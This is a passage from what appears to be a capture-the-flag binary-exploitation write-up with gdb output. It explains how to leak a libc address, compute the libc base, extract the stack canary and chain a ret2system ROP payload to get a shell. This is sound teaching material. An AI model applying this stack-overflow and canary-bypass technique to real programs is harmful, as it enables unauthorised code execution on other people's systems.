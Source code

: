 ```
0x00007ffdc2a98000 0x00007ffdc2a9b000 r--p	[vvar]
0x00007ffdc2a9b000 0x00007ffdc2a9d000 r-xp	[vdso]
0xffffffffff600000 0xffffffffff601000 r-xp	[vsyscall]
gdb-peda$ 
```

We can see that the randomized base address for the used libc starts at `0x7f6c34c55000`.  
If we substract this value from the random libc leak we get the offset.  
This value marks the offset of the random libc address from the base address of libc.  
We can use exactly this offset value for any future execution to find our libc base address.  
This works, since we may have a fully randomized process memory and with that a randomized libc position in memory, but the offset of things within libraries is not changed and always has the same distance from the base address!
Hence calculating the randomized base address of libc with a static offset value is working 100% of the time.  
All of this base calculation happens in `get_libc_base_address(leak_dump)`.  


Having access to libc is like opening the box of the pandora.  
So much useful functions in there.  
I chose to go the `ret2system` way and calculated the address of `system()` and a pointer to `/bin/sh` from the libc base address.  
All of that happens in `get_system_in_glibc(libc_base)` and `get_bin_sh_in_glibc(libc_base)`.  

A really valuable information happened to be at the 71th position in the leaked data.  
We got our stack canary, which we need to successfully leverage a buffer overflow!  
This one is especially easy to spot since its a 16 bit value where the 2 least significant bits are both 0.  
I just extracted the value from the dump in `get_canary_value(leak_dump)`.  

All that is left now is putting it all together.  
This happens in `create_payload(canary, system, shell)`.  
I'm filling the buffer until right before it overflows in the stack canary.  
Then I'm appending the canary value and continue to overwrite the `RBP` with some junk, since it's irrelevant what we put here for the PoC.  
Afterwards our little friend the `pop rdi; ret` gadget is put onto the stack.  
Lastly a pointer to our wanted shell and the system call itself are added.  

Let's visualize this in gdb.  
Right when we hit the `ret` instruction in `trustMeIAmAnEngineer` after our buffer overflow happened our registers and stack look like this:

```
[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0x7f6c34d4c260 (<__read_nocancel+7>:	cmp    rax,0xfffffffffffff001)
RDX: 0x800 
RSI: 0x7ffdc2a90090 ("aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab"...)
RDI: 0x0 
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7ffdc2a904a8 --> 0x400903 (<__libc_csu_init+99>:	pop    rdi)
RIP: 0x400812 (<trustMeIAmAnEngineer+78>:	ret)
R8 : 0x7f6c35219700 (0x00007f6c35219700)
R9 : 0x3 
R10: 0x37b 
R11: 0x246 
R12: 0x400670 (<_start>:	xor    ebp,ebp)
R13: 0x7ffdc2a905a0 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40080a <trustMeIAmAnEngineer+70>:	je     0x400811 <trustMeIAmAnEngineer+77>
```
